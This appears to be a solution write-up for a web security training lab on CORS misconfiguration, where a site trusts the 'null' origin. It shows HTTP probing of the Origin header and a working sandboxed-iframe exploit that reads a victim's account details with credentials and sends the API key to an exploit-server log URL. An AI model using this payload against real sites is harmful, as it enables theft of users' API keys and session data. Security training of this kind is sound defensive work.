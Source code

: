 This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

According to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Origin, The Origin header value may be null in a number of cases, including (non-exhaustively)
-  Origins whose scheme is not one of http, https, ftp, ws, wss, or gopher (including blob, file and data).
- Cross-origin images and media data, including that in <img>, `<video>` and `<audio>` elements.
- Documents created programmatically using createDocument(), generated from a data: URL, or that do not have a creator browsing context.
- Redirects across origins.
- iframes with a sandbox attribute that doesn't contain the value allow-same-origin.
- Responses that are network errors.
- Referrer-Policy set to no-referrer for non-cors request modes (e.g. simple form posts).


Login with wiener:peter

Observe GET /accountDetails request

```http
GET /accountDetails HTTP/2
Host: 0a180063033bf93a8020a34100f10061.web-security-academy.net
...
```

response
```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "ECAUAxXBHOgyn25gqKc57MDySXM1h7Y4",
  "sessions": [
    "hYmgDlci67bxvYyRwGg4FxpVphEZDd8c"
  ]
}
```
ACAC header indicates possible CORS support.

Add Origin header into request

```http
GET /accountDetails HTTP/2
Host: 0a180063033bf93a8020a34100f10061.web-security-academy.net
Origin: example.com
...
```

response
```http
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149
...
```
- No ACAO response header

Change origin to null

```http
GET /accountDetails HTTP/2
Host: 0a180063033bf93a8020a34100f10061.web-security-academy.net
Origin: null
...
```

response
```http
HTTP/2 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149
...
```
- ACAO reflection null

Origin is being reflected in response Access-Control-Allow-Origin header.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin

Store exploit in exploit server:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a3900a903c3f9e68093a2a701f00036.exploit-server.net//log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
- exploit uses iframe as iframes with a sandbox attribute that doesn't contain the value allow-same-origin will use Origin: null by default.

Deliver exploit to victim and view access logs to get the response of the cross origin request to LAB/accountDetails
- submit API key from access log
